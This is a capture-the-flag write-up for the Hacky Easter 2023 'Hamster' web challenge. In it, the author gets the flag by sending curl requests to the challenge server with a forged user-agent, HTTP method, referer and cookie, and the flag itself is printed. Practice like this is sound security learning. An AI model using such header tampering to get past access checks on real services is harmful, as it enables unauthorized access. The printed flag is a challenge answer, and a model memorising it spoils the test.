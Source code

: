 # Description

# Hamster

The Hamster has a flag for you.

<http://ch.hackyeaster.com:2301>

Note: The service is restarted every hour at x:00.

# Hints

curl is your friend.

# Solution

again the same hsts error, dunno why...

after googeling i got to <chrome://net-internals/#hsts> and entered "hackyeaster.com" to be deleted, this worked..

well this challenge is just doing what you are told, and using curl:

```
$ curl http://ch.hackyeaster.com:2301/
Howdy, I am the hamster.Please go to /feed
$ curl http://ch.hackyeaster.com:2301/feed
🕴 only hamster-agent is allowed
$ curl -A "hamster-agent" http://ch.hackyeaster.com:2301/feed
⛳ GET invalid
$ curl -A "hamster-agent" -X POST http://ch.hackyeaster.com:2301/feed
⛳ POST invalid
$ curl -A "hamster-agent" -X HEAD http://ch.hackyeaster.com:2301/feed
Warning: Setting custom HTTP method to HEAD with -X/--request may not work the 
Warning: way you want. Consider using -I/--head instead.

^C
$ curl -A "hamster-agent" -X PUT http://ch.hackyeaster.com:2301/feed
🛑 request must come from hackyhamster.org
$ curl -A "hamster-agent" -X PUT --referer hackyhamster.org http://ch.hackyeaster.com:2301/feed
🍪 brownie not found
$ curl -A "hamster-agent" -X PUT --referer hackyhamster.org -i http://ch.hackyeaster.com:2301/feed
HTTP/1.1 200 OK
Date: Wed, 05 Apr 2023 23:47:44 GMT
Content-Length: 23
Content-Type: text/plain; charset=utf-8

🍪 brownie not found
$ curl -A "hamster-agent" -X PUT --referer hackyhamster.org --cookie "brownie=asdf" http://ch.hackyeaster.com:2301/feed
🍪 brownie must be baked
$ curl -A "hamster-agent" -X PUT --referer hackyhamster.org --cookie "brownie=baked" http://ch.hackyeaster.com:2301/feed
🚩 he2023{s1mpl3_h34d3r_t4mp3r1ng}
```

# FLAG: he2023{s1mpl3_h34d3r_t4mp3r1ng}
